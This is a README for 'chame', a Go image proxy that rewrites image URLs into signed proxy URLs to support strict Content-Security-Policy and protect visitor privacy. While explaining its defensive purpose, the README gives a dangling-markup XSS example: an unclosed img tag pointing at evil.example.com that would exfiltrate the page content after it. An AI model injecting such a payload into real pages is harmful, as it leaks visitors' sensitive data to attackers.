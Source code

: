 chame
=====

chame was inspired a lot by `atmos/camo`_.


Demo
----

A demo instance of chame is deployed and running on Google App Engine at https://chame.yosida95.com/.

Original URL
    http://kvs.gehirn.jp/yosida95/icon_200x200.png
Chame Proxied URL
    https://chame.yosida95.com/i/eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJodHRwczovL2NoYW1lLnlvc2lkYTk1LmNvbSIsInN1YiI6Imh0dHA6Ly9rdnMuZ2VoaXJuLmpwL3lvc2lkYTk1L2ljb25fMjAweDIwMC5wbmcifQ.2LztWUS-DMv5mNSsdYQHsEc7tiXUz1YIvALh4fcvcek


Why use chame?
--------------

- You can enfoce restrictive Content-Security-Policy with img-src that contains only chame (and your CDNs).

- You can protect sensitive data from XSS.

  - For example, without chame, if an evil visitor succeeded to embed HTML snippet like :code:`<img src="https://evil.example.com/collect?data=`, following HTML content on that page until next double-quote maybe sent to evil.example.com.

- You can protect your visitor's privacy (IP address, User-Agent etc.) from unknown parties. chame accesses the original image behalf of your visitor.

- You can avoid Mixed-Content probelm even with HTTP image (maybe provided by your visitor) by proxying with chame on HTTPS.

- You can enforce what image your visitor can embed by issuing chame signed URLs only to origins in your white list.


Quick Start
-----------

Download and Install
~~~~~~~~~~~~~~~~~~~~

.. code-block:: console

    $ go get -u -v github.com/yosida95/chame


Start chame server
~~~~~~~~~~~~~~~~~~

.. code-block:: console

    $ $GOBIN/chame serve


Documentation
-------------

.. code-block:: console

    $ $GOBIN/chame
    Usage:
      chame [command]

    Available Commands:
      encode
      decode
      serve

    Use "chame [command] --help" for more information about a command.


Package documentation is available on GoDoc.

pkg/chame
    https://godoc.org/github.com/yosida95/chame/pkg/chame
pkg/metadata
    https://godoc.org/github.com/yosida95/chame/pkg/metadata
pkg/memstore
    https://godoc.org/github.com/yosida95/chame/pkg/memstore


Deploy to Google App Engine
---------------------------

chame is designed to intend to be deployed easily on `Google App Engine`_.
You can deploy chame with Google's `Cloud SDK`_ like below.

.. code-block:: console

    $ cd $GOPATH/src/github.com/yosida95/chame/appengine
    $ gcloud app deploy --project YOUR_PROJECT app.yaml


User(s)
-------

- `Gehirn Inc. <https://www.gehirn.co.jp/>`_ ( https://chame.usercontent.jp/, My employer )


Author
------

Kohei YOSHIDA a.k.a. yosida95_


License
-------

chame is distributed under the Apache License Version 2.0.
See ./LICENSE.

.. _yosida95: https://yosida95.com/
.. _`atmos/camo`: https://github.com/atmos/camo

.. _`Google App Engine`: https://cloud.google.com/appengine/
.. _`Cloud SDK`: https://cloud.google.com/sdk/
